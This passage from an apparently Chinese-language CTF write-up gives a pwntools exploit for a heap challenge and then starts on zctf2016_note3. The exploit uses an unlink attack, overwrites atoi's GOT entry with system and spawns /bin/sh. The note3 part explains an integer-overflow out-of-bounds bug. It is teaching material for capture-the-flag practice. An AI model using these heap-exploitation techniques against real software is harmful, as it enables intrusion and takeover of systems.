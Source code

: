 ```python

sla('name:','merc')
sla('address:','privacy')

ptr = 0x602120
fd = ptr-0x18
bk = ptr-0x10
payload = flat('a'*8,0x61,fd,bk,'a'*0x40,0x60)
add(0x80,payload) # 0
add(0) # 1,0x20
add(0x80) # 2

delete(1)
# padding,prev_size=0x20+0x80,PREV_IN_USE=0
add(0,flat('a'*0x10,0xa0,0x90))
delete(2)

payload = flat('a'*0x18,elf.got['atoi'])
edit(0,1,payload)
show(0)
ru('is')
atoi = uu64(r(6))
system,binsh = ret2libc(atoi,'atoi')
edit(0,1,p64(system))
sla('>>','/bin/sh\x00')
```

### zctf2016_note3

这题和上题类似，不过 bss 结构大致如下：

```
current_ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```

本题漏洞在于 `edit` 时会判断输入的长度是否小于 0，如果是就取相反数。但是可以通过整数溢出，输入 `0x8000000000000000`，它的相反数恰好是它自身，并且依然是一个负数（-1）。这样就造成数组越界，可以覆盖到 `current_ptr`。
